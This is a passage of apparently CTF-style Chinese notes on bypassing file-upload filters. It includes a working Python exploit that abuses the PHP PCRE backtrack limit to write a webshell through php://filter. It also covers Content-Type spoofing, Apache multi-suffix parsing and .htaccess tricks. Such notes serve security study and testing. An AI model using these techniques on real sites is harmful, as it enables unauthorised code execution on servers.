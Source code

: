 **利用正则回溯pcre限制**

pcre默认限制为100w

参考文章：[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

有如下场景

```php
<?php
if(!preg_match('/.+?ph/is',$_POST['n']))
file_put_contents($_POST['n'],$_POST['s']);
```

可利用如下exp解决

```python
import requests

data= {'n':"php://filter/write=convert.base64-decode/"+'/'*1000000+'/resource=shell.php','s':"PD9waHAgcGhwaW5mbygpPz4="}

print (requests.post('http://127.0.0.1',data=data).text)
```

### 请求头检查：content-type，MIME类型

将php文件的`content-type:application/octet-stream`修改为`image/png`等就可以

更多content-type：可以查看https://tool.oschina.net/commons/

### 解析漏洞、语言特性及漏洞

#### Apache2

（1）多后缀解析漏洞

在Apache 2.0.x <= 2.0.59，Apache 2.2.x <= 2.2.17，Apache 2.2.2 <= 2.2.8中Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。

如1.php.abc，因apache2不识别.abc后缀，所以向前解析php

（2）.htaccess

Apache提供了一种很方便的、可作用于当前目录及其子目录的配置文件——.htaccess（分布式配置文件）

当站点配置上标有AllowOverride All，并且rewrite_mod开启时，.htaccess文件就会生效。

1.Options

列目录

```php
Options +Indexes 
```

可以执行cgi程序

```php
Options ExecCGI 
```
